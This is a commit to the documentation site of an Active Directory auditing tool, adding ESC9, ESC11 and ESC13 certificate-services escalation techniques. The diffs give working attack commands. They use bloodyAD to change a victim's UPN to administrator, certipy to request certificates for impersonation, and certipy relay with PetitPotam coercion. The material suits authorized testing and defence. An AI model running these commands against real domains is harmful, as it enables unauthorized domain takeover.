

Before and after one commit to YakinAnd/morok, an MkDocs documentation site: the page built from docs/techniques/adcs.md, in a window 1280 px wide and 1400 px high, scrolled down 1687 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2317 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
docs: comprehensive update for v0.9.6–v0.9.8
- index.md: version v0.9.8, add kerb-enum/smb to commands table,
  ADCS ESC1–ESC13, stealth/kerb-enum/smb quick start examples
- commands/adcs.md: add ESC9, ESC11, ESC13 with exploit examples
- commands/enum.md: ADCS ESC1–ESC13
- techniques/adcs.md: full ESC9, ESC11, ESC13 explanations with commands
- report/tabs.md: ADCS tab updated, LDAP Security tab adds SMB Signing
- mkdocs.yml: ADCS nav entry ESC1–ESC13

````diff
--- a/docs/commands/adcs.md
+++ b/docs/commands/adcs.md
@@ -1,6 +1,6 @@
 # adpath adcs
 
-Analyzes Active Directory Certificate Services for ESC1–ESC8 vulnerabilities.
+Analyzes Active Directory Certificate Services for ESC1–ESC9, ESC11, and ESC13 vulnerabilities.
 
 ## Usage
 
@@ -10,27 +10,27 @@ adpath adcs -d <domain> -u <user> -p <pass> --dc <dc>
 
 ## Detected vulnerabilities
 
-| ESC | Name | Condition |
-|-----|------|-----------|
-| ESC1 | Enrollee supplies SAN | `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` + auth EKU + low-priv enrollment |
-| ESC2 | Any purpose | `Any Purpose` EKU or no EKUs |
-| ESC3 | Enrollment agent | `Certificate Request Agent` EKU + `msPKI-RA-Signature == 0` |
-| ESC4 | Template write access | Low-priv principal has WriteDACL/WriteOwner/GenericAll/GenericWrite on template |
-| ESC6 | EDITF flag on CA | `EDITF_ATTRIBUTESUBJECTALTNAME2` set on CA — any template allows SAN |
-| ESC7 | CA officer abuse | Low-priv has ManageCA or ManageCertificates on CA object |
-| ESC8 | Web enrollment | AD CS web enrollment interface accessible (no HTTP probe, flag only) |
+| ESC | Name | Condition | Severity |
+|-----|------|-----------|----------|
+| ESC1 | Enrollee supplies SAN | `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` + auth EKU + low-priv enrollment | Critical |
+| ESC2 | Any purpose | `Any Purpose` EKU or no EKUs | High |
+| ESC3 | Enrollment agent | `Certificate Request Agent` EKU + `msPKI-RA-Signature == 0` | High |
+| ESC4 | Template write access | Low-priv has WriteDACL/WriteOwner/GenericAll/GenericWrite on template | High |
+| ESC6 | EDITF flag on CA | `EDITF_ATTRIBUTESUBJECTALTNAME2` set on CA — any template allows SAN | Critical |
+| ESC7 | CA officer abuse | Low-priv has ManageCA or ManageCertificates on CA object | Critical/High |
+| ESC8 | Web enrollment | AD CS web enrollment HTTP endpoint accessible (manual verify) | High |
+| ESC9 | No security extension | `CT_FLAG_NO_SECURITY_EXTENSION` (0x00080000) in `msPKI-Enrollment-Flag` — cert has no SID binding | Medium |
+| ESC11 | ICPR/DCOM relay | Legacy RPC certificate enrollment relay (manual verify) | High |
+| ESC13 | Policy OID → group | Issuance policy OID has `msDS-OIDToGroupLink` to privileged group; low-priv can enroll | Critical/High |
 
-## Severity
-
-- **Critical** — ESC1, ESC2, ESC6 with auth EKU → domain compromise via certificate
-- **High** — ESC3, ESC4, ESC7
-- **Medium** — ESC8
+> ESC5 (PKI object ACL abuse) and ESC10 (weak certificate mapping via registry) are not detected automatically — they require manual analysis or DC registry access.
 
 ## Output includes
 
-- CA table (name, DNS, web enrollment indicator)
-- Per-template findings with enrolled rights and EKUs
-- certipy exploit commands per ESC type
+- CA table (name, DNS hostname, ESC6 flag indicator)
+- Per-template findings with enrollment rights and EKUs
+- ESC13: linked group DN shown in finding
+- certipy / bloodyAD exploit commands per ESC type
 
 ## Example
 
@@ -43,4 +43,18 @@ adpath adcs -d corp.local -u jdoe -p 'Password1' --dc 10.0.0.1
 certipy req -u jdoe@corp.local -p 'Password1' -ca 'CORP-CA' \
   -template 'VulnerableTemplate' -upn administrator@corp.local
 certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
+
+# ESC9 exploit (requires GenericWrite over victim account)
+bloodyAD -u jdoe -p 'Password1' -d corp.local \
+  set object victim userPrincipalName administrator@corp.local
+certipy req -u victim@corp.local -p 'victimpass' -ca 'CORP-CA' -template 'VulnTemplate'
+certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
+
+# ESC13 exploit
+certipy req -u jdoe@corp.local -p 'Password1' -ca 'CORP-CA' -template 'PolicyTemplate'
+certipy auth -pfx jdoe.pfx -dc-ip 10.0.0.1
 ```
+
+## Flags
+
+All standard connection flags apply — see [Authentication](../getting-started/auth.md).
--- a/docs/commands/enum.md
+++ b/docs/commands/enum.md
@@ -44,7 +44,7 @@ adpath enum -d <domain> -u <user> -p <pass> --dc <dc> [flags]
 | **GPO** | Password policy audit, GPO write ACL, GPP cpassword |
 | **Exposure** | Stale accounts, krbtgt age, LAPS coverage, passwords in descriptions |
 | **PSO** | Fine-Grained Password Policy (msDS-PasswordSettings objects) |
-| **ADCS** | ESC1–ESC8 certificate template vulnerabilities |
+| **ADCS** | ESC1–ESC9, ESC11, ESC13 certificate template vulnerabilities |
 | **Protected Users** | Privileged accounts not in Protected Users group |
 | **AdminSDHolder** | Orphaned adminCount=1, custom backdoor ACEs |
 | **Trusts** | Trust direction/type, SID filtering, FSPs in privileged groups |
--- a/docs/techniques/adcs.md
+++ b/docs/techniques/adcs.md
@@ -1,4 +1,4 @@
-# ADCS Attacks (ESC1–ESC8)
+# ADCS Attacks (ESC1–ESC9, ESC11, ESC13)
 
 **MITRE:** T1649
 
@@ -77,6 +77,47 @@ ntlmrelayx.py -t http://ca.corp.local/certsrv/certfnsh.asp \
   --adcs --template 'DomainController'
 ```
 
+## ESC9 — No Security Extension
+
+The template has `CT_FLAG_NO_SECURITY_EXTENSION` (0x00080000) in `msPKI-Enrollment-Flag`. Issued certificates do **not** include the `szOID_NTDS_CA_SECURITY_EXT` extension, which normally binds the certificate to an AD SID.
+
+Without SID binding, if the enrollee's `userPrincipalName` is changed to match another account's UPN before requesting the cert, the cert maps to the other account.
+
+**Requires:** GenericWrite (or equivalent) over a victim account.
+
+```bash
+# 1. Change victim's UPN to impersonate target
+bloodyAD -u jdoe -p 'Pass' -d corp.local \
+  set object victim userPrincipalName administrator@corp.local
+
+# 2. Request cert as victim
+certipy req -u victim@corp.local -p 'victimpass' -ca 'CORP-CA' -template 'VulnTemplate'
+
+# 3. Restore victim's UPN, then authenticate
+certipy auth -pfx administrator.pfx -domain corp.local -dc-ip 10.0.0.1
+```
+
+## ESC11 — ICPR/DCOM Relay
+
+The legacy MS-ICPR (RPC-based Certificate Enrollment) interface can be relayed similar to ESC8, but over DCOM instead of HTTP. No remote check is possible — manual verification required.
+
+```bash
+certipy relay -target 'rpc://ca.corp.local' -template 'DomainController'
+# Trigger coercion: python3 PetitPotam.py <attacker-ip> ca.corp.local
+```
+
+## ESC13 — Issuance Policy OID Linked to Group
+
+A certificate template references an issuance policy OID (via `msPKI-Certificate-Policy`) that has `msDS-OIDToGroupLink` pointing to a privileged AD group. When a user authenticates with such a certificate, they receive the group's privileges in their Kerberos PAC.
+
+```bash
+# Enroll in the policy-linked template
+certipy req -u jdoe@corp.local -p 'Pass' -ca 'CORP-CA' -template 'PolicyTemplate'
+
+# Authenticate — group membership is applied via OID in the cert
+certipy auth -pfx jdoe.pfx -domain corp.local -dc-ip 10.0.0.1
+```
+
 ## Detection with adpath
 
 ```bash
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -78,7 +78,7 @@ nav:
     - AS-REP Roasting: techniques/asreproasting.md
     - ACL Abuse: techniques/acl-abuse.md
     - Delegation Abuse: techniques/delegation.md
-    - ADCS (ESC1–ESC8): techniques/adcs.md
+    - ADCS (ESC1–ESC13): techniques/adcs.md
     - Trust Attacks: techniques/trusts.md
     - Shadow Credentials: techniques/shadow-credentials.md
     - LDAP Relay: techniques/ldap-relay.md
````
Also changed, not shown: docs/index.md (+15 -3 lines), docs/report/tabs.md (+5 -2 lines).
